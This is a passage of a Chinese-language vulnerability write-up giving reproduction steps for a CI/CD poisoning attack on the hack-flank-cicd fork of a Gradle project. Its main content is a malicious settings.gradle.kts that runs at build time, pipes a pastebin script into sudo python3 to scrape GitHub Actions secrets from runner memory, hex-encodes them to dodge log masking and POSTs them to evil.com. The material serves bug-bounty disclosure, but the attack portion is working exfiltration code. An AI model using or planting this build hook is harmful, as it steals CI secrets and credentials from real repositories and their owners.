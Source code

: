 ![Untitled](./image/2024-05-08/Untitled%206.png)

### 复现步骤

先 fork [https://github.com/tarihub/hack-flank-cicd](https://github.com/tarihub/hack-flank-cicd) 项目过来，然后把 `settings.gradle.kts` 改为

```bash
rootProject.name = "hack-flank-cicd"

// For VRP Test, not malicious.
fun String.runCommand(): String? = try {
    ProcessBuilder("/bin/sh", "-c", this)
            .redirectOutput(ProcessBuilder.Redirect.PIPE)
            .redirectError(ProcessBuilder.Redirect.PIPE)
            .start()
            .inputStream.bufferedReader().readText()
} catch (e: Exception) {
    e.printStackTrace()
    null
}

// 这里不用 base64 是因为 base64 编码后容易字符刚好是 github 判定为敏感输出，会打码成 *** 。当然外带就没这个问题了
val output = "curl -sSfL https://pastebin.com/raw/UUPC3Q79 | sudo python3 | tr -d '\\0' | grep -aoE '\"[^\"]+\":\\{\"value\":\"[^\"]*\",\"isSecret\":true\\}' | sort -u | xxd -p | tr -d '\\n'".runCommand()
println("Shell command output: $output")
val post = "if [[ \$OSTYPE == \"linux-gnu\" ]]; then curl -X POST http://evil.com/ --data s=\"$output\"; fi".runCommand()
```
